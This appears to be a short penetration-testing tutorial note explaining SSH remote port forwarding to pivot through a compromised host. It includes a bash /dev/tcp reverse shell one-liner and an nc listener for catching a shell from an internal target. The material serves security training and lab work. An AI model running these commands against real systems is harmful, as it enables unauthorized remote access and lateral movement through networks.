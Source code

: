 

- Remote port forwarding is used to expose a local service to a remote port.
- It is helpful when we want to catch reverse shells from compromised hosts in a pivoted network. 



#### Syntax 

```bash
ssh -R pivot_host_ip:port_to_listen_on:0.0.0.0:port_to_forward_all_traffic username@host

Example:

ssh -R 172.16.0.2:8080:0.0.0.0:8000 ubuntu@localhost
```



The above command will ask the ubuntu server to listen on port 8080 and forward any traffic sent to it to port 8000 on our local machine. 


#### Leveraging it for a reverse shell

We can use remote port forwarding to gain a reverse shell on our machine from a box which can only be accessed by the pivot box. To do this, we do the following :


1. Setup Remote Port Forwarding using SSH

```bash
ssh -R 172.16.0.2:9001:0.0.0.0:9001 ubuntu@localhost
```

2. Execute the reverse shell on the target box reachable via the pivot box 

```bash
bash -i >& /dev/tcp/172.16.0.2/9001 0>&1
```

The target will connect to the pivot box on port 9001, and all the traffic will then be sent to our machine on port 9001 via the SSH session


3. Start the listener on the attacker machine

```bash
nc -nvlp 9001
```


This way, we can communicate with the target box via the pivot box using remote port forwarding